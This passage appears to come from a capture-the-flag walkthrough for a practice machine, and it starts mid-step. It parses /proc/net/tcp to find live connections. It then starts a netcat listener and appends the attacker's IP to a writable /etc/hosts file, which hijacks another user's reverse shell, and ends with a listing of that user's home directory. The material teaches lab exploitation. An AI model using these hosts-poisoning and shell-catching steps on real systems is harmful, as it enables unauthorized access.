 ```
grep -v "rem_address" /proc/net/tcp | awk  '{x=strtonum("0x"substr($2,index($2,":")-2,2)); for (i=5; i>0; i-=2) x = x"."strtonum("0x"substr($2,i,2))}{print x":"strtonum("0x"substr($2,index($2,":")+1,4))}'
```
###### No.<br>Output:
```
127.0.0.53:53
0.0.0.0:22
10.10.24.234:22
10.10.24.234:41376
10.10.24.234:37482
```
###### Lets check for clients
```
grep -v "rem_address" /proc/net/tcp  | awk  '{x=strtonum("0x"substr($3,index($3,":")-2,2)); for (i=5; i>0; i-=2) x = x"."strtonum("0x"substr($3,i,2))}{print x":"strtonum("0x"substr($3,index($3,":")+1,4))}'
```
###### Output:
```
0.0.0.0:0
0.0.0.0:0
10.8.146.73:38764
192.168.0.1:9001
192.168.0.1:9001
```
###### Ok that makes sense, since we know there are two bash commands running by user red. Does that mean the hosts fil...
```
ls -la /etc/hosts
```
###### Output:
```
-rw-r--rw- 1 root adm 242 Jul 19 11:15 /etc/hosts
```
###### 👀😲, Itsss writable, but can only append. This file resets too upon some command so watch out if it disappears.
Step 6:
###### Use netcat(nc/netcat) to listen for and connections on port 9001
```
nc -nvlp 9001
```
###### Then append your openvpn ip to /etc/hosts file
```
echo 'your-ip redrules.thm' >> /etc/hosts
```
###### Nice we got into reds account :)
![image](https://github.com/solocyberengineer/MrBud-Home/assets/90530825/bd84a204-4cef-4465-adca-e8327bf19f76)
###### Lets check whats in the home directory
```
ls -la ~
```
###### Output:
```total 36
drwxr-xr-x 4 root red  4096 Aug 17  2022 .
drwxr-xr-x 4 root root 4096 Aug 14  2022 ..
lrwxrwxrwx 1 root root    9 Aug 14  2022 .bash_history -> /dev/null
-rw-r--r-- 1 red  red   220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 red  red  3771 Feb 25  2020 .bashrc
drwx------ 2 red  red  4096 Aug 14  2022 .cache
-rw-r----- 1 root red    41 Aug 14  2022 flag2
drwxr-x--- 2 red  red  4096 Aug 14  2022 .git
```